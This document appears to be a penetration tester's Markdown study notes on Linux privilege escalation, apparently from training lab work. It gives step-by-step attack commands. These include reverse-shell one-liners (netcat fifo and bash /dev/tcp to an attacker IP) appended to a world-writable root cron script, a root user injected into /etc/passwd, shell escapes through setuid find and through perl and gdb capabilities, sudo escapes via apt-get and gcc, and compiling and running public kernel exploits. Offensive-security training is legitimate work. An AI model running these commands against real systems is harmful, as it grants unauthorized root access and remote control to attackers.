# Abusing Cron Jobs


##  inspect the cron log file (/var/log/cron.log)
```bash
grep "CRON" /var/log/syslog

# Results
Mar 18 13:56:16 debian-privesc CRON[1345]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)

# A script called user_backups.sh is execute as root.

# Inspect the file Privs
ls -lah /home/joe/.scripts/user_backups.sh

#results
-rwxrwxrw- 1 root root 50 Aug 25  2022 /home/joe/.scripts/user_backups.sh

# Every local user can write to this file
# Edit it and add a reverse shell one-liner.
```

## Editing the Discovered Script
```bash
cd .scripts

echo >> user_backups.sh

#Target Agnostic One-Liner
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <KALI IP> <LISTNER PORT>/tmp/f" >> user_backups.sh

#Example
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.227 4444 /tmp/f" >> user_backups.sh

# More stable shell Options
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.227 4444 /tmp/f" >> user_backups.sh

# Or (Good One)
echo "bash -i >& /dev/tcp/192.168.45.227/4444 0>&1" >> user_backups.sh


#Check file
cat user_backups.sh

#Results

#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.227 4444/tmp/f

# Start Listener and wait

nc -nvlp 4444
```

## Abusing Password Authentication

```bash
#  if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow

# This means that if we can write into /etc/passwd, we can effectively set an arbitrary password for any account.

# Goal: Write to /etc/passwd

# Step 1: Generate Hash (DO THIS ON TARGET MACHINE. ALGORITHM MUST MATCH MACHINE)

#Agnostic
openssl passwd <PASSWORD>
#Example:
openssl passwd password
# Results: jd.eR1vZNPkNU

# Append a new root user to /etc/passwd using that hash
echo "root3:HASHHERE:0:0:root:/root:/bin/bash" >> /etc/passwd

echo "root3:jd.eR1vZNPkNU:0:0:root:/root:/bin/bash" >> /etc/passwd

# Log in as new user
su root3
#Password
```

## Insecure System Components
### Abusing Setuid Binaries and Capabilities

```bash
# Enumeration Shortcut:
find / -perm -u=s -type f 2>/dev/null

# Results:
/usr/bin/find
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/ntfs-3g
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/bwrap
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd

# We see /find, lets abuse it
find . -exec /bin/sh -p \; -quit

# Or
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```


### enumerate our target system for binaries with capabilities.

```bash
/usr/sbin/getcap -r / 2>/dev/null

# Results
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = **cap_setuid+ep**
/usr/bin/perl5.28.1 = **cap_setuid+ep**
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

# Notice setuid+ep associated to perl
# To exploit this capability misconfiguration go to: https://gtfobins.org/
# Search Perl: https://gtfobins.org/gtfobins/perl/

# For a shell
perl -e 'exec "/bin/sh"'
# Did not work
```



```bash
# Click the Capabilities Tab
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
```



### Example # 2

```bash
/usr/sbin/getcap -r / 2>/dev/null

# Results
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/gdb = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

# Notice setuid+ep associated to perl
# To exploit this capability misconfiguration go to: https://gtfobins.org/
# Search gdb: https://gtfobins.org/gtfobins/gdb/

# For a shell
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!/bin/sh' -ex quit

# Success
```



## Abusing Sudo

```bash
#IMPORTANT NOTES:
- GTFOBins does not always include sudo. If a command does not work. Try it with sudo as well.
- . instead of x — GTFOBins uses x as a dummy input file, but . (current directory) works better here since there's no actual file called x
#Example: 
    - gcc -wrapper /bin/sh,-s x 
    # vs
    - sudo gcc -wrapper /bin/sh,-s .
- If it works, you may have to upgrade your shell. 
    /bin/bash -i
```bash
sudo -l

# Results
(ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get

# Lets try apt-get
https://gtfobins.org/gtfobins/apt-get/

```


```bash
# Command
apt-get changelog apt

# This puts you into a document type situation. Escape it with !

# This gave me root
```


## Example # 2 

```bash
sudo -l

# Results
 (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/gcc

# tcpdump Attempt

# Create Output File
echo '/bin/sh' > /tmp/shell.sh
# Edit Privs
chmod +x /tmp/shell.sh
#Execute
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root

# Permission Denied

# Try gcc

sudo gcc -wrapper /bin/sh,-s .

#Success
# Stabalize Shell
/bin/bash -i
```

# Exploiting Kernel Vulnerabilities
```bash
cat /etc/issue
uname -r
arch
# Results: Ubuntu 16.04.3 LTS (kernel 4.4.0-116-generic) on the x86_64 architecture
```


## Utilize Searchsploit 
```bash
searchsploit linux kernel ubuntu 16 local privilege

# I do not know how to narrow down the results, but the training material chose this: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                              | linux/local/45010.c

```


## Rename File to CVE (Optional)
```bash

#Rename file to associated CVE
mv 45010.c cve-2017-16995.c
```

## Compile the source code into an executable on target machine (ONLY IF GCC is available, otherwise do it on kali) (.c file)

```bash
# Copy it over
scp cve-2017-16995.c joe@192.168.147.214:~

#Compile it
gcc cve-2017-16995.c -o cve-2017-16995

#Inspect it
file cve-2017-16995

# Run it
./cve-2017-16995
```


## Example 2

```bash
cat /etc/issue
uname -r
arch

# Results
searchsploit linux kernel 4.4.0 local privilege escalation

# Download
searchsploit -m 44298.c
```


# Transfer and run

```bash
#Transfer
scp 44298.c joe@192.168.147.214:~

#Compile it
gcc 44298.c -o 44298

# Run it
./44298

# Failed/Denied
```